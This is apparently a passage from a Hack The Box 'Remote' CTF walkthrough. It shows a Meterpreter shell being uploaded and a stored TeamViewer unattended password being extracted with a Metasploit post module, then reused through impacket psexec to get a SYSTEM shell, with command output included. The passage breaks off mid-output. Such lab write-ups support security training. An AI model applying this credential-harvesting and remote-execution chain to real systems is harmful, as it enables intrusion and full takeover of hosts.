 Teamviewer is installed, shows in "Program Files (x86)"

Uploaded a meterpreter shell to %TEMP% ([created using one-lin3r](https://github.com/D4Vinci/One-Lin3r))

Found Teamviewer password
```
msf6 post(windows/gather/credentials/teamviewer_passwords) > run

[*] Finding TeamViewer Passwords on REMOTE
[+] Found Unattended Password: !R3m0te!
```

Got admin with that password
```
┌─[monty@parrot]─[~/ctfs/htb/boxes/remote]
└──╼ $psexec.py administrator@remote.htb
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

Password:
[*] Requesting shares on remote.htb.....
[*] Found writable share ADMIN$
[*] Uploading file bysoscma.exe
[*] Opening SVCManager on remote.htb.....
[*] Creating service rQJM on remote.htb.....
[*] Starting service rQJM.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>hostname
remote

C:\Windows\system32>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : dead:beef::a48b:9518:15d8:b519
   Link-local IPv6 Address . . . . . : fe80::a48b:9518:15d8:b519%13
   IPv4 Address. . . . . . . . . . . : 10.10.10.180
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:7eaa%13
                                       10.10.10.
```
